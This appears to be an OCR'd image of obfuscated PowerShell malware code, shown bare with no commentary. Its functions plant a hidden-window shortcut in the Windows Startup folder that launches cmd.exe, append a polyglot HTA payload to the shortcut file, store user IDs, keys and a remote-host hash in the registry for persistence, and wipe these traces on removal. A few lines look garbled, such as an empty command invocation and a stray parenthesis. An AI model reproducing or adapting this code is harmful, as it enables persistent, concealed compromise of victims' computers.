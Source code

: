 ```csharp
    ${saVEDHAsH} = &("Get-ItemProperty") -Path ${PaTH} -Name ${hAShHOsTkeY} -ErrorAction ("SilentlyContinue")
    ${CURRenTHasH} = &("Get-StringHash") ${rEmOTEHoSt}
    if(!${SAveDHasH} -or ${sAVedHash}."THH" -ne ${cURREnThash}) {
        &("New-ItemProperty") -Path ${PATH} -Name ${haSHHoSTkEy} -Value ${cURrENtHAsH} -PropertyType ("String") -Force | &("Out-Null")
        &("Drop-Lnk")
    }
}
function DrOp-LNK
{
  ${LNkPaTH} =   (Ls  ('VArIABLE:t2zmw')).VAlUe::("GetFolderPath").Invoke(("Startup")) + '\' + ${LNKNAMe}
  if(&("Test-Path") ${LnKpaTh}) { &("Remove-Item") -Path ${lNKPATH} -Force }
  ${wSH} = &("New-Object") -comObject ("WScript.Shell")
  ${lNk} = ${WSh}.("CreateShortcut").Invoke(${LnKpAth})
  ${LNK}."TARgetPaTh" =  $T2zMW::("GetFolderPath").Invoke(("System")) + "\cmd.exe "
  ${LNK}."ARGuMenTs" = ${LnKTaRgET}
  ${LNK}."wORKiNgDirecToRY" =  (geT-VariABlE  T2zMW -valU  )::("GetFolderPath").Invoke(("Startup"))
  ${lNK}."wiNDOWsTyLe" = 7
  ${lNk}.("Save").Invoke()
  ${boDY} =  (GEt-VaRiabLE  M5E -vAlU)::("ReadAllBytes").Invoke(${LNkpaTH})
  ${BODY} = ${BODY} + ${ENCODiNg}.("GetBytes").Invoke(${POlygLoThta})
    ( VariaBlE  ('M5E')  ).vALUE::("WriteAllBytes").Invoke(${lNkPaTH}, ${bOdY})
}
function get-peRsISTAnCE
{
 param(${INteRNaluSeRiD}, ${INTERnALUseRkEy}, ${ClIENTiD})
  ${PaTH} = ${registRYpAth} + ${clieNTid}
  ${tOSaVE} = ${iNtErNalUserID} + ';' + ${InTeRNALUsERkey}
  if(!(&("Test-Path") ${paTH})) {
    &("New-Item") -Path ${paTh} -Force | &("Out-Null")
  }
  ${CURRenthAsH} = &("") ${rEMOTEHost}
  &("New-ItemProperty") -Path ${pAth} -Name ${rEGIsteREdkeY} -Value ${toSAVe} -PropertyType ("String") -Force | &("Out-Null")
  &("New-ItemProperty") -Path ${PATh} -Name ${HashHosTkEY} -Value ${cuRrENTHAsh} -PropertyType ("String")) -Force |  &("Out-Null")
  &("Drop-Lnk")
}
function DEleTe-TINY
{
  ${AutOlOadlNK} =   ( GCI  VArIAbLe:t2zmW).VaLuE::("GetFolderPath").Invoke(("Startup")) + '\' + ${lnkNaMe}
  &("Remove-Item") -Path ${auTOLoAdLNK} -Force
  ${cliEntID} = &("Get-ClientID")
  ${ReG} = ${rEGIstRYpAth} + ${clIEntID}
  &("Remove-Item") ${Reg} -Recurse
  Exit(0)
}
```
